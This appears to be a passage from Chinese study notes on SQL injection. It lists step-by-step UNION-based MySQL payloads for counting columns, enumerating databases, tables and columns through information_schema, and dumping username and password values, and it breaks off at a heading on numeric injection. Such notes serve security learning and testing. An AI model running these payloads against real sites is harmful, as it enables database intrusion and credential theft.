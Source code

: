 总的来说,思路为闭合前面本来sql语句中的符号,注释掉后面的符号

### 用于查询

- （1）获取字段数

```
order by n  /*通过不断尝试改变n的值来观察页面反应确定字段数*/
```

- （2） 获取系统中所有数据库名

在MySQL >5.0中，数据库名存放在information_schema数据库下schemata表schema_name字段中

```
select null,null,group_concat(schema_name) from information_schema.schemata
```

- （3）获取当前数据库名

```
select null,null,...,database()
```

- （4）获取数据库中的表

```
select null,null,...,group_concat(table_name) from information_schema.tables where table_schema=database()
```

或

```
select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
```

- （5）获取表中的字段

这里假设已经获取到表名为user

```
select null,null,...,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'
```

- （6）获取各个字段值

这里假设已经获取到表名为user，且字段为username和password

```
select null,group_concat(username,password) from users
```

## 0x02注入类型

### 按变量类型

#### 数字型
